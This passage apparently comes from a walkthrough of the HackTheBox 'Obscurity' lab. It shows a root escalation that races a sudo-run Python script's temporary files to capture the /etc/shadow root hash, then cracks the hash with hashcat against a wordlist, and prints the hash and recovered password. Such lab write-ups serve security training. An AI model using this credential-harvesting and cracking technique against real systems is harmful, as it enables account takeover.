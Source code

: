    In order to capture data we need to write the watch output to a file, we write a simple script for this.

   robert@obscure:/tmp$ cat watch-root.sh
    #!/bin/bash
    while true
    do
      cat /tmp/SSH/* >> /tmp/root-out.txt
      sleep 0.1
    done

   Run the watch-script, run BetterSSH.py and grab the hashes from /etc/shadow.

   robert@obscure:/tmp$ ./watch-root.sh
    cat: '/tmp/SSH/*': No such file or directory
    ..
    ..

   robert@obscure:~$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
    Enter username: root
    Enter password: root
      Incorrect pass

   robert@obscure:/tmp$ cat root-out.txt
     root
     $6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1

4. We now have the type 6 password hash (SHA-512) of root. We can crack this using hashcat -m1800
    root@p3:/opt/htb/machines/obscurity# echo "\$6\$riekpK4m\$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1" | tee root.hash
    root@p3:/opt/htb/machines/obscurity# hashcat -a0 -m1800 root.hash /usr/share/wordlists/rockyou.txt -o root.cracked --force
      Session..........: hashcat
      Status...........: Cracked
      Hash.Type........: sha512crypt $6$, SHA512 (Unix)
      Hash.Target......: $6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbV...1h4dy1
      Time.Started.....: Thu Dec 12 15:26:11 2019 (2 secs)
      Time.Estimated...: Thu Dec 12 15:26:13 2019 (0 secs)
      Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
      Guess.Queue......: 1/1 (100.00%)
      Speed.#1.........:      491 H/s (6.72ms) @ Accel:64 Loops:32 Thr:1 Vec:4
      Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
      Progress.........: 768/14344385 (0.01%)
      Rejected.........: 0/768 (0.00%)
      Restore.Point....: 0/14344385 (0.00%)
      Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4992-5000
      Candidates.#1....: 123456 -> james1

      Started: Thu Dec 12 15:26:02 2019
      Stopped: Thu Dec 12 15:26:14 2019

    root@p3:/opt/htb/machines/obscurity# cat root.cracked
      $6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1:mercedes
